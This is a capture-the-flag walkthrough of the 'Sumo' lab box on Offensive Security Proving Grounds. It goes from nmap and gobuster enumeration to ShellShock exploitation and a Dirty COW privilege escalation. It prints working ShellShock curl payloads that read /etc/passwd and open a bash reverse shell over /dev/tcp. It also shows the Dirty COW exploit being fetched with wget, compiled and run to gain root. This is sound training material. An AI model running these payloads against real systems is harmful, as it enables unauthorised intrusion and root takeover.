



# Sumo
**Date:** April 14th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.81.87`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.81.87 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index                (Status: 200) [Size: 177]
```

After circling back and running another scan tool here it turns out that **cgi-bin** exists but showed up as a 404 with **gobuster**. I ran a few other tools to test and **dirb** / **dirbuster** are the only tools that had it come back with a **403** status.

```
dirsearch - 404
wfuzz - 404
dirb - 403
dirbuster - 403
gobuster - 404
```

Now that we know it exists let's run another scan:

`gobuster dir -u http://192.168.81.87/cgi-bin -t 100 -r -x php,txt,html -w dir-med.txt`

```
/test                 (Status: 200) [Size: 14]
```

<br>

## Website Digging

Visiting the main page:



<br>

Looking at **/cgi-bin/test**:



<br>

I do some searching and with **cgi-bin** there's a known exploit called **ShellShock** that I want to test for.

I read a quick article with examples here: [**ShellShock examples**](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/)

And run a quick test to see if I can view **/etc/passwd**:

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

And it works, let's see what else we can do.

**NOTE:** Specify the full path to the command or it will not work. Example **/bin/cat** vs just **cat**.

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/ls -al"`

```
total 20
drwxr-xr-x  2 root     root     4096 Aug 20  2020 .
drwxr-xr-x 58 root     root     4096 Jul  3  2020 ..
-rw-r--r--  1 www-data www-data   33 Apr 14 06:58 local.txt
-rwxr-xr-x  1 root     root       73 May 13  2020 test
-rwxr-xr-x  1 root     root       73 May 11  2020 test.sh
```

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat local.txt"`

```
<REDACTED>
```

That's the first flag for the box.

<br>

## System Access

Ok we've proven that it's vulnerable to the **ShellShock** attack let's go for a reverse shell using **bash**. I set up a listener on my system and run the following:

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/bash -i >& /dev/tcp/<MY IP>/4444 0>&1"`

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [192.168.81.87] 34177
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$
```

Let's clean the shell up a bit to remove the echo and make it easier to use:

`python -c 'import pty;pty.spawn("/bin/bash")'`

CTRL+Z to background the shell.

`stty raw -echo; fg`

`export TERM=xterm-256color`

Much better!

<br>

## System Enumeration

I upload **linPEAS** and run it, and it immediately comes back with **Dirty COW** as the top exploit:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```

I download a variant of the exploit [**from this link**](https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c) using **wget**:

`wget https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c`

```
--2022-04-14 12:12:09--  https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4368 (4.3K) [text/plain]
Saving to: ‘c0w.c’

c0w.c                                  100%[==========================================================================>]   4.27K  --.-KB/s    in 0s      

2022-04-14 12:12:09 (41.9 MB/s) - ‘c0w.c’ saved [4368/4368]
```

I then start a simple http server up on my system and wget the file over to the server:

`python3 -m http.server 80`

`wget http://<MY IP>/c0w.c`

```
Connecting to <MY IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4368 (4.3K) [text/x-csrc]
Saving to: `c0w.c'

100%[======================================>] 4,368       --.-K/s   in 0s      

2022-04-14 09:15:47 (916 MB/s) - `c0w.c' saved [4368/4368]
```

And compile the exploit, which throws a couple error messages but still works:

`gcc -pthread c0w.c -o c0w`

```
c0w.c: In function 'main':
c0w.c:109:3: warning: format '%x' expects argument of type 'unsigned int', but argument 2 has type 'void *' [-Wformat]
```

`ls -al c0w`

```
-rwxr-xr-x 1 www-data www-data 13782 Apr 14 09:16 c0w
```

<br>

## Root

Now that we have it compiled and ready to go let's run it:

```
www-data@ubuntu:/tmp$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap c5120000

madvise 0

ptrace 0
```

And finally run **/usr/bin/passwd**:

```
www-data@ubuntu:/tmp$ /usr/bin/passwd
root@ubuntu:/tmp# whoami
root
```

Heading over to the **/root** directory shows us that our **proof.txt** is there:

```
root@ubuntu:/root# wc -c proof.txt
33 proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Exploiting **ShellShock**, also known as **CVE-2014-6271** to gain initial access to the system
- Searching for privilege escalation vectors with **linPEAS**
- Exploiting a **PTRACE_POKEDATA** variant of **Dirty COW**, also known as **CVE-2016-5195** to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF